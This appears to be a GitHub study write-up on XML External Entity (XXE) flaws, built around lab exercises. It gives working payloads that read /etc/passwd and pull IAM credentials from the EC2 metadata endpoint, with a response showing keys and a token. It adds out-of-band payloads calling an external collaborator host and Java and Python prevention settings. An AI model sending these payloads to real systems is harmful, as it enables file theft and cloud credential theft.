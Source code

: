 ##  **XXE (XML External Entity) vulnerability**
XXE (XML External Entity) vulnerability is a security flaw that occurs when an application processes XML input containing references to external entities. If not properly handled, this can lead to **data exposure, file retrieval, SSRF (Server-Side Request Forgery), and even remote code execution** in some cases.  

---

##  **How XXE Works**
1. **XML Processing**: The application parses user-supplied XML.
2. **External Entity Declaration**: If the XML parser is configured to allow external entities (`DOCTYPE` and `SYSTEM`), attackers can inject references to local or remote files.
3. **Data Exfiltration**: The attacker retrieves sensitive files (e.g., `/etc/passwd`) or triggers SSRF by forcing the server to make requests to internal services.

---

##  **Example of a Vulnerable XML**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  
<root>  
    <data>&xxe;</data>  
</root>
```
 If an application processes this XML, it will replace `&xxe;` with the contents of `/etc/passwd`, exposing sensitive system information.

## **case1: Exploiting XXE using external entities to retrieve files**
```Payload

<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY procuctid SYSTEM "file:///etc/passwd"> ]>
    <stockCheck>
        <productId>&procuctid;</productId>
        <storeId>1</storeId>
    </stockCheck>
```    
## **case2: Exploiting XXE to perform SSRF attacks**
```
  secnerio: The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
  motive: obtains the server's IAM secret access key from the EC2 metadata endpoint.

payloads

<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY procuctid SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
    <stockCheck>
        <productId>&procuctid;</productId>
        <storeId>1</storeId>
</stockCheck>
```
```Response:
            HTTP/2 400 Bad Request

            Content-Type: application/json; charset=utf-8

            X-Frame-Options: SAMEORIGIN

            Content-Length: 552

            "Invalid product ID: {

            "Code" : "Success",

            "LastUpdated" : "2025-03-11T08:19:31.312893341Z",

            "Type" : "AWS-HMAC",

            "AccessKeyId" : "w4CprEoDqP8HcOoLxq1l",

            "SecretAccessKey" : "iGY2bXKWVPmXrG1tllcM4B4pZCq5XivMtFxpbnhm",

            "Token":
"uqqU5kZR1JlvTBF85Eyn2aJDv6zEVFdntShz9zMpqtazw5AQrIkrNisng0DLy0GomI0uqbATyQwBUNw6Ey4YubP4CJnqQAoqO1Qd0lMkkVQPTgtREDUuQiNVAf0qzMUKRsXS7G9pdI6PBfm1g8V0wCNYSKW2YdkWSZaYsOqc4CmXWT4cE0znDrONJ2cN6NpPJCEAFmwO55NDqNnpuMRFovx8DUVs4QdCFDNdW4Vw0JVAQdtU5jsirgxMS4hK1Qkd",

              "Expiration" : "2031-03-10T08:19:31.312893341Z"

            }"
```
## **case 3: Blind XXE with out-of-band interaction**
```
    secnerio: use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
    payloads:
    <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://pe7r5ma8pmiqhg5yu8d1hkk9b0hr5vtk.oastify.com/"> ]>
        <stockCheck>
            <productId>&xxe;</productId>
            <storeId>1</storeId>
        </stockCheck>
```
## **case4: Blind XXE with out-of-band interaction via XML parameter entities**
```
    secnerio: use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator

    Payload:
            <?xml version="1.0" encoding="UTF-8"?>
                    <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://burp-collabrator-subdomain/"> %xxe; ]>
                    <stockCheck>
                        <productId>1</productId>
                        <storeId>1</storeId>
                    </stockCheck>
```
---

## 🛠 **Exploiting XXE**
- **File Disclosure**: Load system files using `file:///path/to/file`.
- **SSRF (Server-Side Request Forgery)**: Force the server to request internal/external resources (`http://internal-service/`).
- **Denial of Service (Billion Laughs Attack)**: Overload memory by nesting entities.
- **RCE (in rare cases)**: If the application allows interaction with system commands via an entity, remote code execution might be possible.

---

##  **How to Prevent XXE**
 **Disable DTD Processing** (External Entities):  
- In Java (DOM Parser):
  ```java
  DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
  dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
  ```
- In Python (`lxml` parser):
  ```python
  from lxml import etree
  parser = etree.XMLParser(resolve_entities=False)
  ```

**Use Safe Parsers**: Choose modern, secure XML libraries that disable external entity resolution by default.  
**Input Validation**: Avoid accepting XML input unless necessary.  
**Use JSON Instead of XML**: JSON does not support external entities, reducing the risk of XXE.

## **Refrence** 
   
   https://rohitcoder.medium.com/comprehensive-guide-detecting-fixing-and-defending-against-xxe-attacks-in-python-and-java-e78691b4b918
   
   https://www.w3schools.com/xml/xml_dtd_intro.asp
   
---
